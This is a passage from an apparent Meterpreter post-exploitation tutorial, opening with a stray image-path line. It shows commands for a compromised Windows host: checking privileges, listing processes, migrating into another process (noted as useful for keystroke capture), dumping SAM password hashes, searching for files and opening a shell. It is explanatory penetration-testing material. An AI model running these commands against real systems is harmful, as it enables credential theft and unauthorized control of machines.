   ```plaintext
  meterpreter > getuid
  Server username: NT AUTHORITY\SYSTEM
  ```

- **ps:** Lists running processes, useful for identifying targets for process migration.

  ```plaintext
  meterpreter > ps
  ```

- **migrate:** Migrates Meterpreter to another process, which can help stabilize the session or capture keystrokes.

  ```plaintext
  meterpreter > migrate 1234
  ```

##### Examples of Useful Commands

1. **Hashdump:**
   Dumps the contents of the SAM database, displaying password hashes stored on a Windows system.

   ```plaintext
   meterpreter > hashdump
   ```

2. **Search:**
   Searches for files with specific names or patterns, useful for locating sensitive information quickly.

   ```plaintext
   meterpreter > search -f *.txt
   ```

3. **Shell:**
   Launches a regular command-line shell on the target system.

   ```plaintext
   meterpreter > shell
   ```

##### Practical Workflow

1. **Getting User ID:**

   ```plaintext
   meterpreter > getuid
   Server username: NT AUTHORITY\SYSTEM
   ```

2. **Listing Processes:**

   ```plaintext
   meterpreter > ps
   ```

3. **Migrating to Another Process:**

   ```plaintext
   meterpreter > migrate 1234
   [*] Migrating from 5678 to 1234...
   [*] Migration completed successfully.
   ```
